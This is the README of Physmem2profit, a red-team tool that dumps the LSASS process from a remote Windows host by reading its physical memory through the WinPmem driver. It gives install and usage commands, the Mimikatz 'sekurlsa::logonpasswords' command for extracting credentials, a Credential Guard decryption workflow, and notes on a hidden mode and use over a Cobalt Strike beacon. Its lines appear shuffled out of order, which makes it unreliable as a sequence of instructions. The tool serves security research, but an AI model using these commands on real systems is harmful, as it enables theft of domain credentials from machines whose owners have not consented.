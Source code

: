 
    * If Rekall has problems parsing the .vmem file, Physmem2profit will recommend you to copy the .vmsn file and rename it to .vmss
    * Loads the Winpmem driver and acts as a server, which exposes the physical RAM of the target host through a TCP port
    * The Secure World data is also stored to `output/[label]-[date]-secure-world.raw`.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp` on the attacking machine.
    * This will write the LSASS minidump to `output/[label]-[date]-lsass.dmp`. The minidump contains a special stream that holds the data from the Secure World, allowing Mimikatz to locate the encryption key.
    * When executed with `--mode all`, performs both of the above actions. Connection with server will be closed when dump is complete.
    * When executed with `--mode dump`, calls various [Rekall](https://github.com/google/rekall) plugins to analyze the memory image and to generate a minidump of the LSASS process.
    * When executed with `--mode mount`, connects to the target machine and mounts the physical RAM of the target as a raw file with the help of [FUSE](https://en.wikipedia.org/wiki/Filesystem_in_Userspace)
    * You can download the signed Winpmem driver [here](https://github.com/Velocidex/WinPmem/raw/master/kernel/binaries/winpmem_x64.sys). This driver needs to be present on the target host.
    * `physmem2profit.exe` needs to be running on the target machine before you run this command.
    1. Build `physmem2profit/server/Physmem2profit.sln` with Visual Studio
    1. `bash physmem2profit/client/install.sh`
![Overview of Physmem2profit](docs/physmemlayout.png)
# Physmem2profit
## Credential Guard
## Installation Instructions
## More Information
## Usage
### Future work
### Setting up a virtual machine for testing
### Testing
* Grzegorz Rychlik for refactoring the code for the first release
* Janusz Szmigielski for refactoring the code for the first release
* Pawel Kurowski for refactoring the code for the first release
1. Clone the Physmem2profit Git repository: `git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git`
1. Copy the minidump to a Windows system and run `mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"`
1. Create a Windows 10 virtual machine with VMware Fusion/Workstation. Join the virtual machine to a domain (Credential Guard [does not protect](https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard-protection-limits) local accounts)
1. Deploy Credential Guard. An easy option is to use the [Device Guard and Credential Guard hardware readiness tool](https://www.microsoft.com/en-us/download/details.aspx?id=53337)
1. For the client running on the attacking machine:
1. For the server running on the target computer:
1. In the Advanced settings, Enable VBS (Virtualization Based Security)
1. Log in to the virtual machine (with a domain account)
1. Reboot
1. Run Physmem2profit against the .vmem file: ```python3 physmem2profit --mode dump --vmem /tmp/Win10-Snapshot1.vmem --label credential-guard-test```
1. Run `cd physmem2profit/client` and ```python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]``` on the attacking machine
1. Run `msinfo32` to ensure `Virtualization-based security Services Running` says `Credential Guard`
1. Run `physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]` on the target as admin.
1. Run `source physmem2profit/client/.env/bin/activate` on the attacking machine. This command will activate the virtualenv created by `install.sh`.
1. Take a snapshot
1. The C# server component, `physmem2profit.exe`, executed on the target host
1. The client, `physmem2profit` Python module, executed on the attacking machine
A C# implementation of the physmem2profit server. Still need to clean up the code and add some more functionality but will work as is, just takes one argument which is the location of the pmem driver.
Decrypting credentials protected by Credential Guard requires gaining access to the encryption key that is stored in the Secure World. For testing purposes, Physmem2profit supports retrieving data from the Secure World from VMware Fusion/Workstation snapshots (.vmem files). This allows credentials protected by Credential Guard to be decrypted with the help of Mimikatz.
Kudos for contributing:
Physmem2profit can be used to create a minidump of a target host's LSASS process by analysing physical memory remotely. The intention of this research is to propose an alternative approach to credential theft and create a modular framework that can be extended to support other drivers that can access physical memory. Physmem2profit generates a minidump (.dmp) of LSASS that can be further analyzed with Mimikatz. The tool does not require Cobalt Strike but should work fine over beacon with a SOCKS proxy.
Physmem2profit is developed by [@b3arr0](https://twitter.com/b3arr0) and [@TimoHirvonen](https://twitter.com/TimoHirvonen).
The idea is illustrated below:
The support for bypassing Credential Guard by exploiting the [S3 Resume firmware vulnerability](https://www.kb.cert.org/vuls/id/976132/), demonstated in our [Disobey talk](https://disobey.fi/2020/profile/lets_get_physical), is coming soon :).
The tool has two components:
[Rethinking Credential Theft](https://labs.f-secure.com/blog/rethinking-credential-theft/) | a blog post explaining why this approach to credential theft was chosen.
